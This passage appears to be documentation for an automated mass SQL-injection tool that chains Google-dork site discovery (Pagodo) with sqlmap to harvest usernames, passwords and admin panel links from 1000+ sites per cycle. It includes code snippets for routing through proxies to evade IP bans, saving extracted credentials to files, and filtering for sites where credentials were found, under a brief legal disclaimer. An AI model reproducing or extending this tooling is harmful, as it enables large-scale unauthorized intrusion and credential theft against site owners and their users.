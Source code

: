 #### Troubleshooting
- **"Dorks file not found"**: Ensure `sqli_dorks.txt` exists in the script’s directory.
- **"Error running Pagodo"**: Check Pagodo installation and Google access (may need a proxy or API key if blocked).
- **"Failed to scan"**: Some sites may be down or block sqlmap; the script skips these automatically.
- **Slow Performance**: Reduce `max_workers` or `threads` if your system struggles.

#### Legal and Ethical Considerations
- **Legality**: Scanning sites without permission is illegal in most jurisdictions. Use this script only on sites you own or have explicit permission to test (e.g., Bug Bounty programs).
- **Ethics**: Avoid harming systems or networks. This tool is for educational purposes or authorized penetration testing.

---

### Full Capabilities Summary
1. **Site Discovery**: Finds 1000+ potentially vulnerable sites using Pagodo and Google Dorks.
2. **SQLi Exploitation**: Extracts usernames, passwords, and admin panel links with sqlmap.
3. **Automation**: Fully automated from discovery to exploitation with minimal user input.
4. **Scalability**: Processes large lists efficiently with parallel execution.
5. **Repeatability**: Allows unlimited cycles of 1000-site scans with unique output files.
6. **Flexibility**: Customizable dorks, site count, and sqlmap parameters.

---

### Advanced Usage Tips
1. **Proxy Integration**:
   - Add a proxy to Pagodo and sqlmap to avoid IP bans:
     ```python
     pagodo_command.append("--proxy=http://your_proxy")
     command.append("--proxy=http://your_proxy")
     ```
2. **Result Storage**:
   - Save results persistently by adding this to `prvysi()`:
     ```python
     with open(f"results_{timestamp}.txt", "w") as f:
         for result in results:
             f.write(f"Site: {result['url']}\nUsername: {result['username']}\nPassword: {result['password']}\nPanel Link: {result['panel_link']}\n{'-'*50}\n")
     ```
3. **Filter Results**:
   - Only show sites with found credentials by modifying the print loop:
     ```python
     for result in results:
         if result['username'] != "Not found" or result['password'] != "Not found":
             print(f"\nSite: {result['url']}")
             print(f"Username: {result['username']}")
             print(f"Password: {result['password']}")
             print(f"Panel Link: {result['panel_link']}")
             print("-" * 50)
     ```

---